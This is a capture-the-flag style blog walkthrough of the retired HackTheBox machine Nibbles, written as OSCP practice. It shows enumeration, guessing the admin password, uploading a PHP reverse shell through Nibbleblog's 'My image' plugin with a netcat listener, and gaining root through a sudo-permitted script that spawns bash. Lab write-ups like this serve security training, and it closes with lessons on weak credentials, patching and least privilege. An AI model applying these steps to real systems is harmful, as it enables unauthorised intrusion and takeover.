

This is the 9th blog out of a series of blogs I will be publishing on retired HTB machines in preparation for the OSCP. The full list of OSCP like machines compiled by TJnull can be found [here](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#).

Let’s get started!

# Reconnaissance

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```
nmap -sC -sV -O -oA htb/nibbles/nmap/initial 10.10.10.75
```

- **-sC**: run default nmap scripts

- **-sV**: detect service version

- **-O**: detect OS

- **-oA**: output all formats and store in file _nmap/initial_

We get back the following result showing that two ports are open:

- **Port 80: **running Apache httpd 2.4.18

- **Port 22**: running OpenSSH 7.2p2



Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```
nmap -sC -sV -O -p- -oA htb/nibbles/nmap/full 10.10.10.75
```

We get back the following result. No other ports are open.



Similarly, we run an nmap scan with the **-sU **flag enabled to run a UDP scan.

```
nmap -sU -O -p- -oA htb/nibbles/nmap/udp 10.10.10.75
```

I managed to root the box and write this blog, while this UDP scan still did not terminate. So for this blog, I don’t have the UDP scan results.

# Enumeration

Visit the site in the browser.



Nothing useful there, so right click and select View Page Source. We find a comment that gives us a new directory.



This leads us to the following page. You can see at the bottom that it is powered by Nibbleblog. This is an indication that it an off the shelf software as apposed to custom software.



To confirm that, let’s google Nibbleblog.



It’s an open-source engine for creating blogs using PHP. This is good news for us for two reasons: (1) you can download the software and play with it offline. This way you can poke at it as much as you want without having to worry about detection, and (2) since it is open-source and used by other people, it probably has reported vulnerabilities. If this was custom software, we would have had to find zero day vulnerabilities.

In order to see if this application is vulnerable, we need to find its version number. To do that, let’s run Gobuster to enumerate directories.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.75/nibbleblog
```

We get back the following results.



Navigate to the README page and there we find out that it is using version 4.0.3.



Google the name of the software and version to see if it has any exploits.



A shell upload vulnerability, that’s what I like to see!

# Gaining an Initial Foothold

Navigate to the shell upload exploit [page](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html).



Several important pieces of information are mentioned in the page.

- It’s a code execution vulnerability.

- The vulnerability is in the “My image” plugin that allows the upload of PHP files. So it would allow us to upload a PHP reverse shell.

- It’s an authenticated vulnerability which means that we need admin credentials before we exploit this vulnerability.

Alright, so the next steps would be:

1. Navigate to the admin login page and figure out the admin credentials

1. Navigate to the My Image plugin page and upload a PHP reverse shell

As mentioned in the Proof of Concept, the admin page can be found here.

```
[http://10.10.10.75/nibbleblog/admin.php](http://10.10.10.75/nibbleblog/admin.php)
```

Navigate to it.



Now we need admin credentials. When I’m presented with an enter credentials page, the first thing I try is common credentials (admin/admin, admin/nibbles, nibbles/nibbles, nibbles/admin). If that doesn’t work out, I look for default credentials online that are specific to the technology. Last, I use a password cracker if all else fails.

In this case, the common credentials admin/nibbles worked! Step #1 is complete!

Next, we need to navigate to the My Image plugin. Click on Plugins > My image > Configure.



Head over to [pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) and get the code for a PHP reverse shell. Change the IP address and port used by your attack machine. Then save it in a file called image.php and upload it on the site.



Start a listener on the above chosen port.

```
nc -nlvp 1234
```

In the browser, navigate to the image we just uploaded to run the reverse shell script.

```
[http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php](http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php)
```

We have a low privileged shell!



Let’s first upgrade to a better shell. Python is not installed but python 3 is.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session (CTRL+ Z) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground.

Grab the user flag.



Now we need to escalate privileges.

# Privilege Escalation

Find out what privileges you have.

```
sudo -l
```



We can run the script monitor.sh in the above specified directory as root without having to enter a root password. Why is that good news for us? If we call a shell in that script, we can run it as root!

First, let’s see what the script contains.

```
cat home/nibbler/personal/stuff/monitor.sh
```



It does not exist! We’ll have to create one.

```
mkdir -p home/nibbler/personal/stuff
cd /home/nibbler/personal/stuff
vi monitor.sh
```

In the monitor.sh script add the following code.

```
#!/bin/sh
bash
```

Give it execute privileges.

```
chmod +x monitor.sh
```

Run the script with sudo.

```
sudo ./monitor.sh
```

We are root!



Grab the root flag.



# Lessons Learned

To gain an initial foothold on the target machine we had to perform two things: (1) guess the credentials of the administrator, and (2) exploit a vulnerability in the installed Nibbleblog version. The application was using weak authentication credentials, and so we were able to guess the admistrator credentials. The application was also using the vulnerable “My image” plugin which allowed us to run a reverse shell back to our attack machine. This shows the importance of enforcing the use of strong authentication credentials and patching your software. In this case, I’m not sure if a patch was even made available. The application also reached its end of life, so the recommendation would be to use other software to host your blog, or at the very least remove the “My image” plugin so that an attacker cannot exploit this specific vulnerability.

To escalate to root privileges, I used a security configuration that was clearly no longer needed by the user since the script is no longer there. This allowed me to run arbitrary commands with root privileges. The system admin should have conformed to the principle of least privilege and not given a regular user the ability to run a script with root privileges.

# Conclusion

9 machines down, 32 more to go!

